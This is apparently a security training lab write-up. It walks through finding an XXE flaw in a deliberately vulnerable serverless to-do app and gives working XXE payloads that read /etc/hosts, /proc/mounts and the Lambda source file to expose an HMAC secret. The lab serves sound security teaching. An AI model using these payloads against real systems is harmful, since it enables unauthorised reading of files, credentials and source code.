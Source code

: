 # Lab 2

## Introduction

In the previous lab, we discovered that the export function creates a backup of our to-do list items and serves the backup as an XML document. We also noticed that the exported data appears to be validated on the backend with an HMAC digest.

In this lab, you will find and exploit an XXE vulnerability, and use that to find the HMAC signing key.

## Methodology

Generally speaking, where an application is processing external input, the developer has to take particular care to handle input safely. In the case of this application, the import functionality parses XML and then pickle data, so let's explore:

1. What we're able to do with specially crafted data
2. What kind of feedback we can get from the application
3. Whether there's an XXE bug in the XML handler
4. What we can access

## Learning the Import function
We know from [Lab 1](./Lab1.md) that the export function generates an XML document; populate your To-Do list with a few items:

![Add some stuff to your list](./images/2-add-to-list.png)

Now export your list, and save the file somewhere on your computer. Finally, delete all the items from your list. It should be completely empty.

Once you've done that, import the file you just exported:

![Import tasks back into your list](./images/2-tasks-imported.png)

## Discovering level of feedback

Let's see what happens if we change the format of our XML document. Change the `backup` tag to `garbage` and try to import it your file:

![Change outer XML tag](./images/2-change-outer-tag.png)

![Error from importing unknown tag](./images/2-invalid-tag-error.png)

So, we get an error and processing stops if we include an invalid tag (i.e. other than `hmac`, `data`, and `backup`).

Interestingly, it seems like the error message includes the content of the invalid element. Let's test that theory, by changing that outer tag back to `backup` and adding a new element:

![Invalid tag with data](./images/2-invalid-tag.png)

![Data reflected in error message](./images/2-invalid-tag-error-1.png)

To test the application's behavior when critical elements are missing, delete the `data` and `hmac` elements and import your XML file. What happened?

## Discovering an XXE bug

From our previous work, we know that we can include and invalid element and the handler will return an error that includes the body of that element. This means that we can get the application to cough up data it thinks doesn't belong, which may make it a good candidate for XXE!

If an application is vulnerable to XXE, the XML parser is coerced into reading a resource from the network or from disk and echoing those contents back to the attacker. Let's see if we can make that happen here.

Create a malicious payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE msg [
  <!ELEMENT msg ANY >
  <!ENTITY data SYSTEM "file:///etc/hostname" >]><msg>&data;</msg>
```
In this payload, `msg` is declared as an element and `data` is declared as a SYSTEM resource. If the XML parser is vulnerable, it will load the contents of `/etc/hostname` into the `<msg>` element.

Let's upload this payload:

![No such file](./images/2-no-such-file.png)

This is promising! Although the file we requested didn't exist, it looks like the handler tried to load our file from disk.

Let's try another file. Modify your XXE payload to read `/etc/hosts`, and upload it. What happened?

![Hosts file](./images/2-etc-hosts.png)

See if you can modify your XXE payload to read `/etc/passwd`.

A cleaner way to look at the data coming back, since newlines aren't rendered in the DOM, is to look at the HTML in your browser's inspector:

![Data in the inspector](./images/2-inspector.png)

## Finding useful files

At this point, we can use the XXE to read files on disk. Let's see what we can find!

We know that serverless functions live in containers, and secrets are injected into those containers via the environment and the filesystem. Let's attempt to read environments variables via `/proc/self/environ`:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE msg [
  <!ELEMENT msg ANY >
  <!ENTITY data SYSTEM "file:///proc/self/environ" >]><msg>&data;</msg>
```

It looks like we can't read this file directly; the parser appears to be breaking on invalid characters, and since this file contains null-byte-separated environment variables, it is probably breaking on a null-byte.

Let's look for special mounted files:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE msg [
  <!ELEMENT msg ANY >
  <!ENTITY data SYSTEM "file:///proc/mounts" >]><msg>&data;</msg>
```

![Mounts](./images/2-mounts.png)

There are no out-of-the-ordinary files mounted here. Notice the `/var/task` mount, that's the directory Lambda uses to store the source code for the application. Let's try to find that source code; finding it will shed more light on how this application works on the backend, and the source code could potentially contain useful secrets.

In the [AWS SAM examples](https://github.com/awslabs/serverless-application-model/tree/master/examples/apps/hello-world-python), the code for Python examples is often put in a file called `lambda_function.py`. Let's try searching for that:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE msg [
  <!ELEMENT msg ANY >
  <!ENTITY data SYSTEM "file:///var/task/lambda_function.py" >]><msg>&data;</msg>
```

![Boom goes the dynamite](./images/2-dynamite.jpg)

Using that XXE vulnerability, we're able to disclose the source code of the serverless application:

![Source code](./images/2-source-code.png)

You can read the Python underlying the serverless backend, and better understand how the application works. No more guessing! Do you see anything immediately valuable?

## Recap

By poking around, we were able to determine that including invalid XML elements would cause the web app to spit out the tag and contents of the element. We were able to leverage that to read files from disk in the container via an XML external entities (XXE) vulnerability in the XML handling code.

Finally, we were able to access the source code for the entire serverless application, which contains a secret!

## Vulnerabilities covered

| Designation | Description | Comment |
| :---: | --- | --- |
| A3:2017 | Sensitive Data Exposure | Sensitive data on disk is leaked via XXE |
| A4:2017 | XML External Entities (XXE) | The import functionality is vulnerable to XXE |
| A6:2017 | Security Misconfiguration | An HMAC key is stored/exposed in the function's source code |
| A9:2017 | Using Components with Known Vulnerabilities | XXE in xml.sax library is mitigated in Python 3.7.1 |
